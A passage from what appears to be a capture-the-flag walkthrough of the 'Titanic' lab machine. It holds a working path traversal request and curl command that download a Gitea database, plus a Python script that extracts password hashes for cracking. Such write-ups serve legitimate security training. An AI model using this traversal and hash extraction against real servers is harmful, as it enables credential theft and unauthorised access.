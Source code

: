 ## Exploring dev.titanic.htb

Visiting `http://dev.titanic.htb` reveals a Gitea interface. In one of the repositories (**developer/docker-config**), a commit (`22f11c1c4`) references a mounted volume at `/home/developer/gitea/data`. We suspect that the Gitea database might contain credentials or other useful information.

![](Pasted%20image%2020250217120827.png)

---

## Extracting the Gitea Database

Using the path traversal vulnerability again, we request the Gitea database directly:

```
GET /download?ticket=../../../../../../../home/developer/gitea/data/gitea/gitea.db
```

We can use `curl` to save the file locally:

```bash
curl "http://titanic.htb/download?ticket=../../../../../../../../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
```

Inspecting it shows:

```bash
file gitea.db
# gitea.db: SQLite 3.x database ...
```

---

## Cracking the Hashes

Next, we dump the Gitea user hashes using a Python script (adapted from [gitea3hashcat.py](https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271)):

```python
import sqlite3
import base64
import sys

if len(sys.argv) != 2:
    print("Usage: python3 gitea3hashcat.py <gitea.db>")
    sys.exit(1)

try:
    con = sqlite3.connect(sys.argv[1])
    cursor = con.cursor()
    cursor.execute("SELECT name,passwd_hash_algo,salt,passwd FROM user")
    for row in cursor.fetchall():
        if "pbkdf2" in row[1]:
            algo, iterations, keylen = row[1].split("$")
            algo = "sha256"
            name = row[0]
        else:
            raise Exception("Unknown Algorithm")
        salt = bytes.fromhex(row[2])
        passwd = bytes.fromhex(row[3])
        salt_b64 = base64.b64encode(salt).decode("utf-8")
        passwd_b64 = base64.b64encode(passwd).decode("utf-8")
        print(f"{name}:{algo}:{iterations}:{salt_b64}:{passwd_b64}")
except Exception as e:
    print(f"Error: {e}")
    sys.exit(1)
```
